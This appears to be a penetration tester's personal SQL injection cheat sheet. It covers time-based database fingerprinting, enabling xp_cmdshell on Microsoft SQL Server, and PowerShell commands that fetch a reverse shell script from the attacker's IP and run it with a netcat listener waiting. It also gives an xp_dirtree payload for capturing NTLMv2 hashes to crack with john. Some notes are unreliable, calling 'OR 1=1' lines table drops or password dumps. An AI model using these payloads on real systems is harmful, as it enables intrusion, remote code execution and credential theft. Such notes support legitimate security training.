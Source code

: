 - Characters to try for injection:
- `'` MSSQL, MySQL, PostgreSQL, Oracle, SQLite, IBM DB2, Microsoft Access, SAP HANA, MariaDB
	- Hex: `0x22`
	- Unicode: `\u0027`
- `"` MySQL, PostgreSQL, SQLite
- `backtick` MySQL, MariaDB
- `\` MySQL for escaping
- `;` terminate queries for most DBMSs
- `--` comment for MSSQL, MySQL, PostgreSQL, Oracle
- `#` comment for MySQL
`'` in username field leads to error so SQL injection
`'; WAITFOR DELAY '00:00:05'--`
- caused 5 second delay so time-based sql
`' OR 1=1 in (SELECT * FROM users) -- //
- drop users table
`' or 1=1 in (SELECT password FROM users) -- //`
- drop password from users table
`' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //`
- dump admin password

To query database version:
Oracle`SELECT banner FROM v$version   SELECT version FROM v$instance`
Microsoft`SELECT @@version`
PostgreSQL`SELECT version()`
MySQL`SELECT @@version`

Time-based:
`'; IF SUBSTRING(@@version, 1, 1) = 'M' BEGIN WAITFOR DELAY '00:00:03' END; -- -`
- causes delay so we know version starts with M
- There are three DBMSs that I can think of which start with M. So if the above command doesn't make the site hang for three seconds, you can also try `'; IF SUBSTRING(@@version, 1, 2) = 'My' BEGIN WAITFOR DELAY '00:00:03' END; -- -`
	- no delay so not MySQL

`'; IF SUBSTRING(@@version, 1, 9) = 'Microsoft' BEGIN WAITFOR DELAY '00:00:03' END; -- -`
- causes delay so we know its microsoft SQL server
- Now that you know it's Microsoft SQL Server, you can tailor your attack the same way. The training material shows that we can enable xp_cmdshell if it isn't already with this command `'; EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE; EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE; -- -`
- Once that's done, you can execute commands with `'; EXECUTE xp_cmdshell "" -- -` and enter the commands you'd like in the `" "`
	- `'; EXECUTE xp_cmdshell "powershell.exe wget http://192.168.45.210/info.txt -OutFile c:\\Users\Public\\info.txt" -- -`
		 - executes command from sql injected machine to request info.txt from my `python -m http.server 80`
			- should see the request (regardless if the file is there, will get 404)
`'; EXECUTE xp_cmdshell "powershell.exe wget http://192.168.45.248/revshell.ps1 -OutFile c:\\Users\Public\\revshell.ps1" -- -`
- should see request so we know file is uploaded
`'; EXECUTE xp_cmdshell "powershell.exe c:\\Users\Public\\revshell.ps1" -- -`
- will see connection on nc -lvnp 6969

If SQLi on windows target, start `smbserver.py test . -smb2support` and try appending this to URL where `'` goes:
```
;%20EXEC%20master..xp_dirtree%20%22\\10.10.14.5\test%22;%20--
```
- replace `10.10.14.5` with kali IP
- ex: `https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=8;%20EXEC%20master..xp_dirtree%20%22\\10.10.14.5\test%22;%20--`
- catch ntlmv2 hash and crack with john (copy whole thing including username and trailing 00000s)